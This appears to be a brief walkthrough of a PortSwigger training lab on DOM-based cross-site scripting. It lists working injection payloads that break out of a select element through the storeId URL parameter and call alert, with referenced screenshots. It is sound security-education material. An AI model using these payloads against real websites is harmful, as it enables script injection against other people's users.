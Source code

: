 # DOM XSS in `document.write` sink using source `location.search` inside a select element

## This lab contains a [DOM-based cross-site scripting](https://portswigger.net/web-security/cross-site-scripting/dom-based) vulnerability in the stock checker functionality. It uses the JavaScript `document.write` function, which writes data out to the page. The `document.write` function is called with data from `location.search` which you can control using the website URL. The data is enclosed within a select element.

## To solve this lab, perform a [cross-site scripting](https://portswigger.net/web-security/cross-site-scripting) attack that breaks out of the select element and calls the `alert` function.

Pyaload are

`"></select><img src=1 onerror=alert(document.domain)>`
or
`"></select><script>alert(1)</script>`

`&storeId="></select><script>alert(1)</script>`

step1

![screenshot](images/lab10_fetch_stock_price.jpg)

add &storeId=abcd into url

![screenshot](images/lab10_modify_productid_stored_id.jpg)

use payload

![screenshot](images/lab10_payload.jpg)

![screenshot](images/lab10_payload_result.jpg)
